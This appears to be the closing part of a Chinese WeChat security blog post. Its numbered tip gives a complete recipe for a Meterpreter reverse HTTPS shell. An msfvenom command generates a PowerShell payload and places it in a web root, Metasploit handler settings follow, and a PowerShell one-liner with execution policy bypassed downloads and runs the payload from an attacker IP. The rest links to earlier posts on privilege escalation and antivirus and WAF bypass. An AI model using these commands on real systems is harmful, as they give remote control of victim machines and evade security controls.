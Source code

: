 #### 20. Bypass reverse_https powerShell

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.120 LPORT=443 -f psh-reflection > /var/www/html/Powershell.ps1

msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf exploit(multi/handler) > set lhost 192.168.1.120
msf exploit(multi/handler) > set lport 443
msf exploit(multi/handler) > exploit

命令行执行：
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.120/Powershell.ps1'); "
```

只需在公众号回复 “HackTheBox” 关键字即可领取一套 HTB 靶场的学习文档和视频，你还在等什么？？？

**【往期 TOP5】**

[星外虚拟主机提权实战案例](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247483922&idx=1&sn=c7c8750c9650be82bacb6e21f4e8d945&chksm=cfa6a601f8d12f171ef19c18d28871ade588c908fec0ffdb4388c0d3a2772a6a94c6d74006bd&scene=21#wechat_redirect)  

[绕过 360 安全卫士提权实战案例](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484136&idx=1&sn=8ca3a1ccb4bb7840581364622c633395&chksm=cfa6a6fbf8d12fedb0526351f1c585a2556aa0bc2017eda524b136dd4c016e0ab3cdc5a3f342&scene=21#wechat_redirect)  

[记一次因 “打码” 不严的渗透测试](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484046&idx=1&sn=30121cccf924ad5ad4b3cd832c85f148&chksm=cfa6a69df8d12f8bd3a0b2e67992e20141fb4ee2d6e16a5f72aa6d1b2e1372ba03a82bc967d1&scene=21#wechat_redirect)  

[TP-RCE 绕过阿里云防护 Getshell](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247483719&idx=1&sn=334d6f51b37f85e135d2713cbffcf23d&chksm=cfa6a554f8d12c42b8f8f9f68b5a9e453ed75c45158793a8c6b88651b4b7a252eba4193c46a8&scene=21#wechat_redirect)

[看图识 WAF - 搜集常见 WAF 拦截页面](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247483802&idx=1&sn=bd0b61b881a3d833da2719a0a8b241c7&chksm=cfa6a589f8d12c9f6a8592124b6bd49f14357d1b7d78b4a44ff17838199b6e81b13f4becc328&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRgjicUHG1ssz8JfRYaI9HSKjVfEfibFkKzsJPZ4GCaiaymLRrmXjRqD8ag/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)  如果对你有所帮助，点个分享、赞、在看呗！![](https://mmbiz.qpic.cn/mmbiz_gif/XOPdGZ2MYOeicscsCKx326NxiaGHusgPNRnK4cg8icPXAOUEccicNrVeu28btPBkFY7VwQzohkcqunVO9dXW5bh4uQ/640?wx_fmt=gif)